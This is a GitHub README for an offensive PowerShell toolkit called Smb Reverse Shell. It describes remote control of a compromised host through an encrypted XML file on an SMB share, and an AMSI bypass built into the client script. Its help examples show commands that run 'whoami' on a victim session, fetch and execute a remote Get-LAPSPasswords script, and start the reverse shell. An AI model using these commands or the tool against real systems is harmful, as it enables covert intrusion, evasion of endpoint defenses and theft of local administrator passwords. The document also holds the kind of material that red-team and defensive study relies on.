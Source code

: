 # Smb Reverse Shell

Invoke-SmbOrder and Invoke-SmbObey are two simple Powershell scripts that allow remote control of a compromised client using an XML file on an SMB share.
The script is intended to enable command line sessions on hosts that do not have direct access to the Internet.
<br>
<br>
The communication channel takes place via SMB.
The XML file can be located on any share, as long as both the server and the client have read and write access to it.
AES encryption is used to ensure that the executed commands and their results are not readable by anyone.
Decryption takes place in memory, so the XML file will never be stored in plain text on disk.
The script for the client contains an Amsi bypass for the Powershell as well as the .Net interface.
Furthermore, Powershell scripts can be loaded into the client.

## Help
```
Get-Help Invoke-SmbOrder -Full

NAME
    Invoke-SmbOrder

TOPIC
    SMB reverse shell - Server component


SYNTAX
    Invoke-SmbOrder [-XmlFile] <String> [-Action] <String> [[-Session] <String>] [[-Execute] <String>] [[-Url] <String>]

DESCRIPTION
    Execute Powershell commands on a remote host by using an encrypted XML file and accessible SMB share.


PARAMETER
    -XmlFile <String>
        The path to XML file containing the commands and results.

        Required?                true
        Position?                    1

    -Action <String>
        Type of action that will be performed. Possible values: create, query, command, script, clear

        Required?                true
        Position?                    2

    -Session <String>
        MD5 hash value of a session.

        Required?                false
        Position?                    3

    -Execute <String>
        Powershell command that will be executed.

        Required?                false
        Position?                    4

    -Url <String>
        URL that holds a Powershell script.

        Required?                false
        Position?                    5

NOTES
    
        Author: r1cksec
        License: GNU General Public License
    

    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action create

    Create encrypted XML file.




    -------------------------- EXAMPLE 2 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action query

    Query XML file for sessions.




    -------------------------- EXAMPLE 3 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action query -Session 5E43AD84D02509F5A6E4A92CDFDC8730

    Query XML file for specific session.




    -------------------------- EXAMPLE 4 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action command -Execute "whoami" -Session
    5E43AD84D02509F5A6E4A92CDFDC8730

    Execute a command for specific session.




    -------------------------- EXAMPLE 5 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action script -Url
    "https://raw.githubusercontent.com/r1cksec/Get-LAPSPasswords/master/Get-LAPSPasswords.ps1" -Session
    5E43AD84D02509F5A6E4A92CDFDC8730

    Execute a command for specific session.




    -------------------------- EXAMPLE 6 --------------------------

    PS C:\>Invoke-SmbOrder \\192.168.0.1\share\file.xml -Action clear

    Remove all pending commands and scripts.

```

```
Get-Help Invoke-SmbObey -Full

NAME
    Invoke-SmbObey
    
TOPIC
    SMB reverse shell - Client component
    
    
SYNTAX
    Invoke-SmbObey [-XmlFile] <String> 
    
    
DESCRIPTION
    Execute Powershell commands on a remote host by using an encrypted XML file and accessible SMB share.
    

PARAMETER
    -XmlFile <String>
        The path to XML file containing the commands and results.
        
        Required?                true
        Position?                    1
        Default value                 
        
NOTES
    
        Author: r1cksec
        License: GNU General Public License
    

    -------------------------- EXAMPLE 1 --------------------------
    
    PS C:\>Invoke-SmbObey -SmbFile \\192.168.0.1\share\file.xml
    
    Start reverse shell on compromised client.

```

## Demo
![](https://github.com/r1cksec/smb-reverse-shell/blob/main/demo.gif)

## License

GNU General Public License

